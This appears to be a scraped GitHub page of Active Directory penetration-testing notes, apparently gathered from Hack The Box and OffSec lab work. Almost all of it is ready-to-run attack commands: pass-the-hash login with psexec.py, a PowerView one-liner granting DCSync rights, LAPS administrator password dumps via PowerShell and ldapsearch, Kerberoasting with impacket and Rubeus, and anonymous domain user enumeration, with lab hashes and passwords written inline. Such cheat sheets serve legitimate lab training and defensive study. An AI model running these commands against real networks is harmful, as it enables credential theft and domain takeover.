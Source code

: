 ### psexec.py with hash example 
`psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26 Administrator@10.10.11.174` 

### Use Powerview to Add User to a group, create a credential, then add that to DCSync rights
(Solution to HTB Forest)[https://0xdf.gitlab.io/2020/03/21/htb-forest.html]
`Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync` 

### use ps remoting to invoke commands powershell 

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername dc01 -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
``` 

### LAPS dump password by computername
`Get-AdmPwdPassword -ComputerName dc01 | Select-Object Password,ExpirationTimestamp` 

### Check for LAPS passowrd w/ AD-Module
`Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` 

### Kerberoasting w/ impacket
`GetUserSPNs.py -request -dc-ip 10.10.252.24 controller.local/machine1 -outputfile hashes.kerberoast` 

### LDAP search for LAPS passwords 
`ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.120.108 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd` 

### Enumerating users on a Windows domain with rpcclient (without credentials)

```
rpcclient -U "" -N <ip>
    rpcclient $> enumdomusers
    rpcclient $> queryuser <user_RID>
```

### Kerberoasting w/ Rubeus
`Rubeus.exe kerberoast /outfile:hashes.txt` 







